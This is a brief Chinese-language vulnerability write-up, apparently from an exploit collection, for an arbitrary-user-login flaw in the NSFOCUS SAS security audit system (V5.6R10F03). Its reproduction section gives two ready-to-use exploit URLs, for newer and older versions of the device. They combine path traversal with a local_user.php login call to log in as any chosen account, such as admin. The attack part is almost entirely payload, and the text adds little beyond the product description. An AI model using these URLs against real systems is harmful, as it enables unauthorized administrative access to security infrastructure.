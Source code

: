 #### 影响范围

V5.6R10F03 

#### 漏洞类型

任意用户登录

#### 利用条件

影响范围应用

#### 漏洞概述

绿盟安全审计系统SAS采用先进的协议识别和智能关联分析技术，对网络数据进行采集、分析和识别，实时动态监测通信内容、网络行为等，对发现的敏感信息传输、违规网络行为实时告警，并全面记录用户上网行为，为调查取证提供依据，满足"151号令"法规要求

#### 漏洞复现

 通过修改user_account参数证明可登录不同用户：

```
https://堡垒机IP/api/virtual/home/status?cat=....//....//....//....//....//....//....//....//....//....//....//..../ /....//....//usr/local/nsfocus/web/apache2/www/local_user.php&method=login&user_account=admin
```

老版堡垒机：

```
https://堡垒机IP/api/virtual/home/status? cat=../../../../../../../../../../../../../../usr/local/nsfocus/web/apache2 /www/local_user.php&method=login&user_account=
```